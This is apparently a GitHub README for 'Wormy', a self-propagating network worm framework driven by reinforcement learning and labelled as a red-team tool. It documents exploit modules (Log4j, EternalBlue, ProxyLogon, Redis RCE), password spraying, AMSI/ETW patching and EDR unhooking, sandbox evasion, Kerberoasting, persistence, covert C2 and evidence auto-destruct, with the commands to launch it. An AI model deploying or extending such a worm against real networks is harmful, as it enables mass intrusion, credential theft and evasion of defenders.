



<p align="center">
  <h1 align="center">🐛 The Worm Tower — ML Network Worm v3.0</h1>
  <p align="center">
    <strong>ML-Driven Autonomous Network Propagation Platform</strong>
  </p>
  <p align="center">
    <a href="https://github.com/Ruby570bocadito/Wormy-ML-Network-Worm"></a>
    <a href="https://github.com/Ruby570bocadito/Wormy-ML-Network-Worm"></a>
    <a href="https://github.com/Ruby570bocadito/Wormy-ML-Network-Worm"></a>
    <a href="https://github.com/Ruby570bocadito/Wormy-ML-Network-Worm"></a>
    <a href="https://github.com/Ruby570bocadito/Wormy-ML-Network-Worm"></a>
    <a href="https://github.com/Ruby570bocadito/Wormy-ML-Network-Worm"></a>
  </p>
  <p align="center">
    <strong>Developed by <a href="https://github.com/Ruby570bocadito">Ruby570bocadito</a></strong>
  </p>
</p>

---

> **⚠️ EDUCATIONAL & AUDIT PURPOSE ONLY** — Only use on systems you own or have explicit written authorization for. Unauthorized access is illegal (Computer Fraud and Abuse Act, EU Directive 2013/40/EU, Spanish Art. 264 CP).

---

## Table of Contents

- [Overview](#overview)
- [Features](#features)
- [Quick Start](#quick-start)
- [Usage & Commands](#usage--commands)
- [Web Dashboards](#web-dashboards)
- [Interactive CLI](#interactive-cli)
- [Architecture](#architecture)
- [The ML Brain](#the-ml-brain)
- [Exploit Modules](#exploit-modules)
- [Enterprise Password Engine](#enterprise-password-engine)
- [Enterprise Evasion Engine](#enterprise-evasion-engine)
- [Active Directory Module](#active-directory-module)
- [Persistence Engine](#persistence-engine)
- [Docker Lab](#docker-lab)
- [Configuration](#configuration)
- [Project Structure](#project-structure)
- [Requirements](#requirements)
- [License](#license)

---

## Overview

Wormy is an **ML-driven network propagation framework** for authorized red team operations. It combines reinforcement learning-based decision making with enterprise-grade exploitation techniques to simulate advanced persistent threats (APTs) in controlled environments.

### What makes it different

- 🧠 **RL Brain** that learns which targets to prioritize based on asset value (DC=100, DB=70, Workstation=10)
- 🔍 **TCP-probe scanner** that works in Docker Desktop / Windows / behind NAT (no ICMP needed)
- 🥷 **Real AMSI/ETW/DLL-unhook** evasion — not stubs, actual memory patching
- 🏢 **Active Directory** attack chain: LDAP enum → AS-REP Roast → Kerberoast (no credentials needed)
- 🔄 **OTA Brain Updates** — receive new model weights via C2 and hot-swap without restart
- 🔑 **Smart credential mutations**: `Admin` → `Adm!n123`, `Admin@2024`, `4dm1n!`

---

## Features

### 🧠 ML/RL Engine
- DQN + Thompson Sampling for adaptive target prioritization
- Asset-value aware reward function
- OTA weight updates via C2 (hot-swap without restart)
- Contextual Bandits: UCB1-ranked credential ordering
- Auto-training on first run if no model exists

### 🔍 Enterprise Scanner v2
- TCP SYN probe host discovery — works in Docker Desktop / Windows / behind NAT
- Banner grabbing + OS fingerprinting (no nmap required)
- Asset classification: Domain Controller, Exchange, DB server, Container host, Workstation
- 35 port definitions with weighted service detection

### 🔓 Exploit Engine (28 modules)

| Service | Technique |
|---|---|
| Redis | NoAuth access, CONFIG SET RCE, AUTH brute, SLAVEOF exfil |
| Elasticsearch | NoAuth API dump, Painless script RCE, Kibana SSRF |
| Jenkins | Groovy script console RCE |
| MySQL/MSSQL/Postgres/MongoDB | Default credential exploitation |
| SSH/FTP/Telnet | Protocol-aware brute force |
| SMB | Pass-the-Hash, EternalBlue |
| Exchange | ProxyLogon / ProxyShell |
| Active Directory | LDAP enum, AS-REP Roasting, Kerberoasting |
| Log4j | CVE-2021-44228 JNDI injection |
| Citrix/VMware vCenter | CVE-based RCE |
| Struts/WebLogic | Remote code execution |
| Docker daemon | Unauthenticated API abuse |
| Kubernetes | Kubelet API exploitation |

### 🔑 Enterprise Password Engine
- Password spray with lockout protection (1 password × N targets per window)
- Mutation engine: 35+ variants per base word
- Company-based password generation
- Credential stuffing from breach lists
- Parallel execution with configurable thread pool
- Protocol handlers: SSH, FTP, MySQL, Postgres, MSSQL, MongoDB, HTTP

### 🥷 Enterprise Evasion Engine
- AMSI bypass via `AmsiScanBuffer` memory patch
- ETW silencing via `EtwEventWrite` patch
- DLL unhooking (ntdll.dll clean copy restore)
- Sandbox detection (process, artifact, timing, RAM, username)
- 3-layer payload obfuscation: XOR + RC4 + Base64
- Sleep jitter (log-normal distribution — evades SIEM beacon detection)
- LOLBins wrapper: certutil, mshta, rundll32, wmic, PowerShell encoded

### 🏢 Active Directory Module
- DC discovery via port signature (88+389) and DNS SRV records
- LDAP enumeration (null session or authenticated)
- AS-REP Roasting: crackable hashes without credentials
- Kerberoasting: TGS ticket extraction → hashcat -m 13100

### 🔄 Multi-Protocol C2 + OTA
- HTTP/HTTPS beaconing with configurable jitter
- Domain Fronting support
- DNS-over-HTTPS covert channel
- OTA Brain Update: send `.pth` model weights, hot-swap without restart
- Encrypted telemetry (AES-256)

---

## Quick Start

```bash
# 1. Clone
git clone https://github.com/Ruby570bocadito/Wormy-ML-Network-Worm
cd Wormy-ML-Network-Worm

# 2. Install all dependencies
pip install -r requirements.txt

# 3. Deploy Docker lab (safe isolated environment)
docker compose -f docker-compose-lab.yml up -d

# 4. Run against Docker lab (Windows-compatible injection mode)
python tests/run_worm_vs_lab.py

# 5. Full scan + exploit mode (Linux / authorized environment)
python worm_core.py --config configs/lab_docker.yaml
```

---

## Usage & Commands

```bash
# Interactive mode with full CLI (recommended)
python3 worm_core.py --dry-run --interactive

# Dry run — safe simulation, no real exploits
python3 worm_core.py --dry-run --profile audit

# Stealth profile — slow, careful, full evasion active
python3 worm_core.py --profile stealth

# Aggressive profile — fast, maximum spread
python3 worm_core.py --profile aggressive

# Scan only — discover + classify hosts without exploiting
python3 worm_core.py --scan-only

# With Metasploit — real CVE exploits via RPC
python3 worm_core.py --config configs/config_msf.yaml

# Against Docker lab (Windows-compatible, no ICMP)
python3 tests/run_worm_vs_lab.py

# Kill switch — emergency stop
python3 worm_core.py --kill-switch "STOP_WORMY_NOW"
```

### Command Line Arguments

| Argument | Description |
|---|---|
| `--config <file>` | Configuration file to use |
| `--scan-only` | Scan network and exit |
| `--kill-switch <code>` | Activate kill switch |
| `--profile <name>` | Profile: `stealth`, `aggressive`, `audit` |
| `--dry-run` | Simulate without executing real exploits |
| `--no-monitor` | Disable CLI monitor |
| `--interactive` | Interactive CLI mode |

---

## Web Dashboards

When Wormy starts, two web dashboards are automatically launched:

### Armitage Dashboard — http://localhost:5001

Visual network map inspired by Metasploit's Armitage GUI:
- **Network Map**: Host icons with color-coded status (green=infected, red=failed, blue=discovered)
- **Statistics**: Real-time counts of infected, discovered, failed hosts
- **Activity Feed**: Live event log with timestamps
- **Context Menu**: Right-click on hosts to Exploit, Scan, view Vulnerabilities
- **Auto-refresh**: Updates every 3 seconds

### Web Dashboard — http://localhost:5000

Professional monitoring dashboard:
- **8 Stat Cards**: Infected, Discovered, Vulnerabilities, Exploit Chains, Lateral Movement, Credentials, C2 Beacons, Polymorphic Mutations
- **Hosts Table**: IP, OS, Status, Health, Payload variant
- **8 REST API Endpoints**: `/api/status`, `/api/hosts`, `/api/activity`, `/api/vulnerabilities`, `/api/credentials`, `/api/topology`, `/api/stats`, `/api/command`

| Location | URL |
|---|---|
| Same machine | http://localhost:5001 (Armitage) / http://localhost:5000 (Web) |
| Same network | http://192.168.1.X:5001 / http://192.168.1.X:5000 |

---

## Interactive CLI

Start with `python3 worm_core.py --dry-run --interactive`

### Scan & Discovery

| Command | Description |
|---|---|
| `scan [professional\|basic]` | Scan network with visual progress bar |
| `targets` | List all discovered hosts |
| `vulns <ip>` | Show vulnerabilities for a target |
| `topo` | Generate network topology visualization |

### Exploitation

| Command | Description |
|---|---|
| `exploit <ip>` | Exploit a specific target |
| `chain <ip>` | Show exploit chain for a target |
| `bruteforce <ip> [service]` | Brute force credentials |
| `deploy <ip> [type]` | Deploy payload (reverse_shell, beacon, webshell) |
| `exec <ip> <command>` | Execute command on infected host |
| `persist <ip> [methods]` | Establish persistence |

### Lateral Movement

| Command | Description |
|---|---|
| `pivot <source_ip>` | Show lateral movement options from host |

### Monitoring

| Command | Description |
|---|---|
| `status` | Current propagation status |
| `hosts` | Host monitoring dashboard |
| `monitor` | Real-time host monitoring |
| `activity [limit]` | Real-time activity feed |
| `evasion` | Show evasion status and techniques applied |
| `creds` | Show discovered credentials |

### Execution

| Command | Description |
|---|---|
| `run [iterations]` | Start propagation for N iterations |
| `stop` | Stop propagation |
| `report` | Generate full audit report |

---

## Architecture

### System Overview



### Propagation Flow



---

## The ML Brain

The RL agent uses a **Double DQN** with Thompson Sampling for exploration:



### Asset Value Reward Function

```python
ASSET_VALUES = {
    'domain_controller': 100,   # Crown jewel
    'container_host':     90,   # K8s/Docker pivot
    'exchange_server':    80,   # Email + credentials
    'database_server':    70,   # Data exfil
    'file_server':        60,   # Lateral movement
    'web_server':         30,   # Initial access
    'workstation':        10,   # End user
}

# Stealth bonus multipliers
TECHNIQUE_MULTIPLIERS = {
    'kerberoasting':  1.5,   # Silent, no network noise
    'pass_the_ticket': 1.3,
    'ssh_pivot':       1.1,
    'exploit_rce':     0.9,
    'brute_force':     0.8,  # Noisy — penalised
}
```

---

## Exploit Modules

All 28 modules inherit from `BaseExploit` and plug into the `ExploitManager`:

```python
class Redis_Exploit(BaseExploit):
    # NoAuth PING → CONFIG SET RCE → BGSAVE
    # AUTH brute (15 common passwords)
    # SLAVEOF master takeover for exfil

class Elasticsearch_Exploit(BaseExploit):
    # /_cat/indices enum → sensitive index detection
    # Painless script RCE check
    # Kibana SSRF detection (port 5601)
    # Snapshot API abuse

class ActiveDirectory(BaseExploit):
    # LDAP null session enum (users, SPNs, admin groups)
    # AS-REP Roasting → $krb5asrep$23$ hashes
    # Kerberoasting → $krb5tgs$23$ hashes
    # Output: hashcat -m 18200 / -m 13100 ready
```

---

## Enterprise Password Engine

```
Input: 'Admin'
Mutations generated (35+):
  Admin, admin, ADMIN, Admin!
  Admin1, Admin123, Admin2024
  Admin@2024, Admin@123
  4dm1n, 4dm1n!, 4dm1n123
  !Admin!, Admin#1, Admin@1
  AdminWinter2024, AdminSummer2024
  ...

Company-based (AcmeCorp → 43 passwords):
  AcmeCorp!, AcmeCorp2024, acmecorp123
  Welcome1, Welcome2024, AcmeCorp@123
  ...

Spray mode (lockout-safe):
  Round 1: 'Welcome1'    × 50 targets (parallel)
  [wait 300s anti-lockout window]
  Round 2: 'Password123' × 50 targets (parallel)
```

---

## Enterprise Evasion Engine

Execution order at startup:

```
1. SandboxDetector.is_sandboxed()
   → Check: Cuckoo process, VirtualBox, VMware, debuggers
   → Check: Timing attack (accelerated time = sandbox)
   → Check: RAM < 1.5GB, CPU count ≤ 1
   → If sandbox: sleep 300-600s and exit

2. DLLUnhooker.unhook_ntdll()
   → Read clean ntdll.dll from C:\Windows\System32\
   → Map .text section → restore original syscall stubs
   → EDR API hooks removed

3. ETWSilencer.silence()
   → Patch EtwEventWrite with single RET byte
   → Kernel telemetry blind

4. AMSIBypass.bypass()
   → Patch AmsiScanBuffer → always returns AMSI_RESULT_CLEAN
   → PowerShell scripts unscanned

5. BeaconJitter.sleep_jitter()
   → log-normal distribution (σ=0.3)
   → Beacon interval varies ±30% — SIEM pattern detection fails
```

---

## Active Directory Module

```
Target network: 10.0.0.0/8
Enterprise Scanner finds: 10.0.1.5 (ports 88, 389, 445, 636)

→ AD Attacker triggered automatically

Phase 1 — DC Discovery
  Port signature: 88+389 = Domain Controller confirmed
  DNS SRV: _ldap._tcp.dc._msdcs.corp.local → 10.0.1.5

Phase 2 — LDAP Enumeration (null session)
  Users found: 847
  Computers found: 312
  AS-REP roastable: 12 accounts (no preauth)
  Kerberoastable SPNs: 8 service accounts

Phase 3 — AS-REP Roasting (no credentials needed)
  Captured: $krb5asrep$23$svc_backup@corp.local:...
  Captured: $krb5asrep$23$john.doe@corp.local:...
  → hashcat -m 18200 hashes.txt rockyou.txt

Phase 4 — Kerberoasting (any domain user)
  Captured: $krb5tgs$23$*svc_sql$corp.local*...
  → hashcat -m 13100 hashes.txt rockyou.txt
```

---

## Persistence Engine

| Platform | Method | Privilege | Stealthiness |
|---|---|---|---|
| Windows | Registry Run Key (HKCU) | User | Medium |
| Windows | Scheduled Task (SYSTEM) | Admin | Medium |
| Windows | WMI Event Subscription | Admin | ⭐ High |
| Windows | Startup Folder | User | Low |
| Linux | User crontab (@reboot) | User | Medium |
| Linux | /etc/cron.d/ | Root | Medium |
| Linux | Systemd user service | User | ⭐ High |
| Linux | SSH authorized_keys | User | ⭐ High |
| Linux | LD_PRELOAD | Root | ⭐⭐ Very High |
| Linux | .bashrc/.zshrc injection | User | Low |

---

## Docker Lab

### Start Lab

```bash
docker compose -f docker-compose-lab.yml up -d
```

### Services

| Container | Port | Service | Vulnerability |
|---|---|---|---|
| lab_redis | 6379 | Redis 7 | AUTH + CONFIG RCE |
| lab_mysql | 3306 | MySQL 5.7 | Default creds root:root |
| lab_postgres | 5432 | PostgreSQL 14 | Default creds admin:admin123 |
| lab_mongodb | 27017 | MongoDB 6 | NoAuth access |
| lab_mssql | 1433 | MSSQL 2019 | SA default password |
| lab_jenkins | 8080 | Jenkins LTS | Groovy console RCE |
| lab_elasticsearch | 9200 | Elasticsearch 7 | NoAuth data dump |
| lab_rabbitmq | 5672/15672 | RabbitMQ 3 | Default guest:guest |
| lab_juice | 3000 | OWASP Juice Shop | Web vulnerabilities |

### Test Results (live)

```
Services reachable: 10/11
Services pwned:      5/10
  ✅ MySQL       — Default creds root:root
  ✅ PostgreSQL  — Default creds admin:admin123
  ✅ MongoDB     — NoAuth listDatabases
  ✅ Elasticsearch — NoAuth index dump
  ✅ Juice Shop  — HTTP 200 web access
  ⚠️  Redis      — AUTH enabled (brute needed)
  ⚠️  RabbitMQ   — 401 (creds needed)
  ⚠️  Jenkins    — 403 (CSRF token needed)
OTA Brain Update: ✅ OK
```

### Run Tests

```bash
# Enterprise module validation (all local, no Docker needed)
python tests/test_enterprise_modules.py

# Live Docker lab attack
python tests/run_worm_vs_lab.py

# Docker service integration tests
python tests/test_docker_lab.py

# Advanced features (mock-isolated)
python tests/test_advanced_features.py
```

---

## Configuration

Edit `configs/lab_docker.yaml` or `configs/config.yaml`:

```yaml
network:
  target_ranges:
    - "192.168.100.0/24"   # Docker lab
    # - "10.0.0.0/8"       # Enterprise internal
  max_threads: 50
  scan_timeout: 2.0

propagation:
  mode: "aggressive"        # aggressive | stealth | scan-only
  max_infections: 100

evasion:
  stealth_mode: true
  detect_ids: true

safety:
  geofence_enabled: true
  allowed_networks:
    - "192.168.100.0/24"
  kill_switch_code: "STOP_WORMY_NOW"
  max_runtime_hours: 4
  auto_destruct_time: 8

ml:
  use_pretrained: true
  rl_agent_path: "models/rl_agent"
```

### Profiles

| Profile | Speed | Evasion | Noise | Use Case |
|---|---|---|---|---|
| `stealth` | Slow | Maximum | Minimal | Production red team |
| `aggressive` | Fast | Minimal | High | Internal lab |
| `audit` | Medium | Off | Low | Authorized audit |

---

## Project Structure

```
wormy/
├── worm_core.py                      # Main orchestrator (2563 lines)
├── configs/
│   ├── config.yaml                   # Default config
│   └── lab_docker.yaml               # Docker lab config
├── scanning/
│   ├── enterprise_scanner.py         # TCP-probe scanner v2 ★
│   └── professional_scanner.py       # Async scanner (async)
├── exploits/
│   ├── exploit_manager.py            # Exploit dispatcher (28 modules)
│   ├── enterprise_password_engine.py # Spray/brute/stuffing ★
│   ├── active_directory.py           # AD: LDAP/AS-REP/Kerberoast ★
│   ├── credential_manager.py         # UCB1 credential ranking
│   └── modules/
│       ├── redis_exploit.py          # Redis RCE v2 ★
│       ├── elasticsearch_exploit.py  # ES data dump v2 ★
│       ├── jenkins_exploit.py
│       ├── mssql_exploit.py
│       ├── ssh_exploit.py
│       ├── smb_exploit.py
│       └── ...                       # 22 additional modules
├── evasion/
│   ├── enterprise_evasion.py         # AMSI/ETW/DLL/obfuscation ★
│   ├── edr_bypass.py
│   ├── polymorphic_engine.py
│   ├── ids_evasion.py
│   └── stealth_engine.py
├── post_exploit/
│   ├── persistence_enterprise.py     # WMI/SSH keys/LD_PRELOAD ★
│   ├── persistence.py
│   ├── lateral_movement.py
│   ├── credential_dumping.py
│   └── data_exfiltration.py
├── c2/
│   └── multi_protocol_c2.py          # C2 + OTA brain updates
├── rl_engine/
│   └── propagation_agent.py          # DQN + Thompson Sampling
├── docker-compose-lab.yml            # Vulnerable lab environment
└── tests/
    ├── run_worm_vs_lab.py            # Live lab test ★
    ├── test_docker_lab.py            # Docker integration tests
    ├── test_enterprise_modules.py    # Enterprise module validation ★
    └── test_advanced_features.py     # Unit tests (mock-isolated)
```

★ = Added or upgraded in v3.0

---

## Requirements

```bash
pip install -r requirements.txt
```

### Core (mandatory)
```
torch>=2.0.0          # RL Brain
impacket>=0.11.0      # SMB, Kerberos, NTLM attacks
paramiko>=3.4.0       # SSH exploitation
requests>=2.31.0      # HTTP exploitation
rich>=13.0.0          # Terminal dashboard
psutil>=5.9.0         # Process/sandbox detection
pyyaml>=6.0.1         # Configuration
networkx>=3.0         # Knowledge graph
```

### Enterprise (unlock full capability)
```
pymysql>=1.1.0        # MySQL exploitation
pymongo>=4.0.0        # MongoDB exploitation
psycopg2-binary>=2.9  # PostgreSQL exploitation
ldap3>=2.9.0          # Active Directory enumeration
dnspython>=2.4.0      # DNS DC discovery
```

### Optional
```
scapy>=2.5.0          # Raw packet crafting
python-nmap>=0.7.1    # Nmap integration
gymnasium>=0.29.0     # RL training environment
```

---

## Security Controls

| Control | Description |
|---|---|
| Kill switch | `STOP_WORMY_NOW` halts all operations immediately |
| Geofencing | Restricts to defined network ranges only |
| Max infections | Hard cap on compromised hosts |
| Max runtime | Auto-shutdown after configured hours |
| Auto-destruct | Evidence cleanup after time limit |
| Sandbox bail-out | Detects analysis environments → goes dormant |
| Encrypted telemetry | AES-256 C2 communications |

---

## License

MIT License — for authorized security research and penetration testing only.

**© 2024 Ruby570bocadito** — [GitHub](https://github.com/Ruby570bocadito/Wormy-ML-Network-Worm)
